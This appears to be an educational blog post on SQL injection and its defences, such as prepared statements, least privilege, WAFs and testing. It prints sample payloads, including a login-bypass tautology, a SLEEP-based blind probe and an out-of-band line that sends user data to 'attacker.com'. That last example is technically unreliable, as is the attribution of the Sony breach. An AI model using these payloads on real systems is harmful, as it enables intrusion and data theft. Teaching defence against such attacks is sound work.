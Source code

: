 ```yaml
---
title: "SQL Injection: The Silent Database Killer"
seoTitle: "Preventing SQL Injection Threats"
seoDescription: "Learn about SQL injection, a major cybersecurity threat causing data breaches and financial loss, and discover methods to defend against such attacks"
datePublished: Fri Feb 28 2025 10:17:08 GMT+0000 (Coordinated Universal Time)
cuid: cm7omcwya001o08i8eicldluw
slug: sql-injection-the-silent-database-killer
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1740737695809/cf2c687d-fd5a-4268-9709-aab0333f658d.jpeg
tags: databases, sql, cybersecurity-1

---
```


Have you ever walked into a restaurant and asked for a burger, but instead of just giving you what you ordered, the waiter takes your request and gives you access to the kitchen, allowing you to mess with other customers’ meals, steal ingredients, or even shut down the whole place?

May not have happened but it sounds crazy, right? Now just imagine things happened that way.

This is exactly how **SQL injection (SQLi)** works in the digital world. Instead of interacting with a website as intended, attackers manipulate **Structured Query Language (SQL)** commands to gain unauthorized access to databases. This vulnerability can lead to **stolen user credentials, financial fraud, data leaks, and even complete database destruction**.

SQL injection has been one of the **most dangerous web security vulnerabilities** for over two decades, and despite advancements in cybersecurity, it continues to threaten businesses and users worldwide.

## **What Is SQL Injection?**

SQL injection is a **code injection technique** where an attacker manipulates a website’s database by inserting **malicious SQL statements** into an input field (such as a login form, search box, or URL parameter). If the application does not properly validate and sanitize user input, the attacker can execute SQL commands that should never be allowed.

### **How Does It Work?**

Many web applications store critical data (such as usernames, passwords, and financial records) in **relational databases**, such asMySQL, PostgreSQL, or Microsoft SQL Server. These databases use **SQL** to manage and retrieve data.

A typical login query looks like this:

```plaintext
sqlCopyEditSELECT * FROM users WHERE username = 'john' AND password = 'password123';
```

If an attacker enters `' OR '1'='1` as the username and password, the query becomes:

```plaintext
sqlCopyEditSELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

Since `1=1` is **always true**, the database may grant access to **all users**, effectively bypassing authentication!

## **Real-World Example: The Sony PlayStation Hack (2011)**

In 2011, Sony’s PlayStation Network (PSN) was hacked using SQL injection, exposing the personal details of 77 million users worldwide. Attackers gained access to credit card information, passwords, and emails stored in Sony’s database. This massive breach forced Sony to shut down PSN for 23 days, causing an estimated $171 million in damages.

This case highlights the devastating impact of SQL injection when companies fail to secure their databases properly.

## **Types of SQL Injection Attacks**

### **1\. Classic (In-Band) SQL Injection**

This is the most common type, where the attacker directly interacts with the database and sees the results in the application's response.

#### **Example:**

A vulnerable website might allow an attacker to modify a search query like this:

```plaintext
sqlCopyEditSELECT * FROM products WHERE name = 'Laptop' OR '1'='1';
```

If `1=1` is always true, **all products will be displayed**, even if the attacker is not supposed to see them.

### **2\. Blind SQL Injection**

Unlike classic SQL injection, **blind SQLi** does not return data directly. Instead, attackers test database behavior by **observing website responses**, such as error messages or delays.

#### **Example:**

An attacker may enter:

```plaintext
sqlCopyEdit' OR IF(1=1, SLEEP(5), 0) --
```

If the website **pauses for five seconds**, it confirms that the injection worked, meaning the database is vulnerable.

### **3\. Out-of-Band SQL Injection**

This advanced attack type is used when a hacker cannot see immediate results. Instead, the attacker **exfiltrates data to an external server** using features like **DNS or HTTP requests**.

#### **Example:**

A hacker may inject:

```plaintext
sqlCopyEditSELECT * FROM users INTO OUTFILE 'http://attacker.com/data.txt';
```

This command **sends stolen user data** to the attacker's server.

## **Why Is SQL Injection Dangerous?**

* **Data Theft** – Hackers can steal personal data, login credentials, and credit card information.
    
* **Website Defacement** – Attackers can modify website content or delete critical data.
    
* **Complete Database Control** – A successful attack can give hackers full administrative privileges.
    
* **Financial Loss & Legal Consequences** – Companies face lawsuits, fines, and reputational damage.
    

## **How to Defend Against SQL Injection**

### **1\. Use Prepared Statements (Parameterized Queries)**

Prepared statements ensure that user inputs are treated as **data, not executable code**. This prevents SQL injection.

#### **Example (Python with MySQL):**

```plaintext
pythonCopyEditcursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
```

Since `%s` acts as a placeholder, malicious input **cannot modify the SQL structure**.

### **2\. Input Validation & Escaping**

* **Validate User Input** – Restrict input types (e.g., no special characters in username fields).
    
* **Escape Special Characters** – Use functions like **mysqli\_real\_escape\_string()** in PHP to sanitize input.
    

### **3\. Limit Database Privileges**

* **Use the Principle of Least Privilege (PoLP)** – Web applications should have minimal database permissions.
    
* **Restrict** `DROP`, `DELETE`, and `UPDATE` access to only trusted users.
    

### **4\. Web Application Firewalls (WAFs)**

A **WAF,** such as Cloudflare or AWS WAF, can detect and block malicious SQL injection attempts before they reach the database.

### **5\. Regular Security Testing & Patching**

* **Use SQLi Scanners** – Tools like SQLmap can detect vulnerabilities.
    
* **Update Database Software** – Outdated systems are often targets for SQL injection.
    

SQL injection remains one of the **most exploited cybersecurity threats**, responsible for massive data breaches, financial losses, and reputational damage. **As a developer, business owner, or everyday internet user, it is crucial to implement strong security practices** such as prepared statements, input validation, and regular security testing. In today’s digital world, protecting your data is just as important as protecting your wallet.